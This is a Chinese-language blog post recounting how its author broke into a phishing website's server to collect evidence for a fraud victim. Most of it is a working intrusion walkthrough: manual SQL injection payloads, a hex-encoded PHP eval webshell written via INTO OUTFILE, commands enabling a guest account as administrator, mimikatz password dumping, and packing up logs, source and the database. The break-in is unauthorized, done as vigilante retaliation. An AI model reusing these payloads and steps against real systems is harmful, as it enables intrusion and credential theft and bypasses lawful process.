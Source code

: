 ```yaml
---
layout: post
title:  "[Web安全]记一次钓鱼网站调查取证"
date:   2018-07-14 9:51
categories: web-security
permalink: /archivers/Traceability-go-fishing-website-20180714
---
```


## 0x00 前言

  前段时间加了个设计群,某人说朋友被骗钱在群里吐了两天苦水,原先真不打算管这事,没太多时间管闲事.无奈昨晚下了场大雨,没办法出门跑步,一时技痒就顺道把钓鱼站黑了顺道把网站日志跟服务器登陆日志打包出来.所以有了这篇文章记录一下过程.

## 0x01 溯源准备

  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714100404.jpg)

### 1.1 开始

看到链接下看到后缀php?uid=,初步判断应该是php+mysql的网站..复制链接到电脑浏览器打开后下意识职业病uid=87'
  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714151131.png)
  

### 1.2 爆出路径,可能存在sql注入

  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714101745.png)
  
得到路径D:\xxxxx\zz\index.php，加上header头数据初步判断得出是Windows+Apache+Php+Mysql的网站,能爆路径很概率会有Sql注入,我们先记录下来路径是D:\xxxxx\
>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=1 //返回正常

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 //返回错误

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714103406.png)


### 1.3 有sql注入

本来想掏出SQLMAP一把梭,结果sqlmap居然没注入出来..可能是我的操作有问题..只能手工注入了.

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/8f83af916f494821bc2980ac6d539759.jpeg)

### 1.4 猜字段数目

当尝试注入语句字段个数为26返回正确,27返回错误,说明字段数等于26.

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 order by 26 //返回正常

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 order by 27 //返回错误

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714104806.png)

### 1.5 联合查询语句，暴出可显示字段

>http://www.xxxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,
>14,15,16,17,18,19,20,21,22,23,24,25,26

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714111522.png)

### 1.6 暴出数据库用户、版本、库名和路径信息.

>system_user() 系统用户名
>
>user() 用户名
>
>current_user当前用户名
>
>session_user()连接数据库的用户名
>
>database() 数据库名
>
>version() MYSQL 数据库版本
>
>load_file() MYSQL 读取本地文件的函数
>
>@@datadir 读取数据库路径
>
>@@basedir MYSQL 安装路径
>
>@@version_compile_os 操作系统 

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,user(),database(),7,8,version(),10,11,12,
>@@basedir,14,15,16,17,18,19,20,21,22,23,24,25,26

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714122723.png)

运气不错是root权限,不用大费周章跑去后台传马,直接写,记录信息root@localhost^^5.5.40^^xxxx^^D:/phpStudy/MySQL/

### 1.7 写入webshell

结合我们刚才爆出的网站路径D:\xxxxx\zz\ 
php一句话<?php eval($_POST['test'])?>
去https://www.107000.com/T-Hex/ 转成hex16进制加上0x
得出写入webhsell语句.

>http://www.xxxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,0x3C3F706870206576616C28245F504F53545B2774657374275D293F3E,6,7,8,9,10,11,12,13,
>14,15,16,17,18,19,20,21,22,23,24,25,26 into outfile 'D:/xxxxx/zz/weiho.php'


### 1.8 提升权限

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714150838.png)

连接上去看一下权限,Administrator..典型phpstudy安装完啥也不管直接把站丢上去的情况..还想着要不Mysql UDF或者MOF提权.这里接下来有两种做法,直接启用guest,添加密码以及管理员权限.第二种下个wce读取明文,以administrator的权限登陆.Ps:wce需要管理员或管理员以上的权限才可以,一般情况下配合本地提权exploit,但这里是Administrator.可以忽略掉要提权的操作.不过我们这里选前者,直接启用guest账号.先查看下对方在不在VPS里.状态:断开.

>query users //查看登陆
用户名                会话名             ID  状态    空闲时间   登录时间
>
>administrator                             2  断开      1+21:09  2018/7/11 23:15
>
>net user guest /active:yes &net localgroup administrators guest /add & net user guest weiho4444@
>
>命令成功完成。
>

### 1.9 登陆远程桌面

>nmap -sS -A -v -p- --open xxxx.cn

我进来这服务器前用nmap大概扫了一下.有三个端口开放80,3306,3389.本来想爆破3306.telnet过去没到三秒结束会话,后面登陆才发现设置了IP.3389一般是远程桌面的端口.直接本地连过去就行了.
运行远程桌面
>mstsc

### 1.10 读取明文密码

[mimikatz](https://github.com/gentilkiwi/mimikatz/releases/tag/2.1.1-20180616)

先下载回来,由于这VPS是x86系统所以运行x86的mimikatz

Ps:一定要是管理员权限才能运行.
>privilege::debug
>
>sekurlsa::logonpasswords

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714135136.png)

得到管理员administrator密码540cxxxxxx.把自己账号禁了,以管理员进去.


## 0x02 开始溯源

### 2.1 拷贝系统日志Security和System

>C:\Windows\System32\winevt\Logs

### 2.2 Apache日志 error.log

>"C:\Program Files\WinRAR\Rar.exe" a -k -r -s -m1 D:\xxxxxx\error.rar D:\phpStudy\Apache\logs

### 2.3 打包网站源码

>"C:\Program Files\WinRAR\Rar.exe" a -k -r -s -m1 D:\xxxxxx\1.rar D:\xxxxx\

### 2.4 导出mysql数据库

mysqldump -uroot -proot123456 dbname > D:\xxxxx\dbname.sql


![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714141302.png)

## 0x03 后话

  把数据打包后,让那哥们交民警结果人家民警同志不信..说我数据可能伪造.我说让民警直接联系我吧,然后blabla不了了之,就立了案.OMG.大写服气.后面让玄道转交给江苏的网警同志.今天(7.14)记录一下昨晚(7.13)的大概过程.中间省略了一些不太必要的过程.后续可以做的事,分析apache以及系统日志.做个后门记录远程桌面访问的IP,以及iframe之类的引用插入后台相关地址记录.查看web服务器日志得到对应IP.

## 0x04 参考资料与工具

>
>[一个PHP+Mysql手工注入例子](https://blog.csdn.net/praifire/article/details/51926863)
>
>[Mysql注入方式](https://www.cnblogs.com/0x03/p/7451292.html)
>
>[Hex编码解码](https://www.107000.com/T-Hex/)
>
>[使用mimikatz_trunk获取计算机密码](https://jingyan.baidu.com/album/e52e36154c3ff140c70c515f.html)
>
>[caidao](https://github.com/pythonsky/caidao-20160620-www.maicaidao.com)
>
>[mimikatz](https://github.com/gentilkiwi/mimikatz)
>
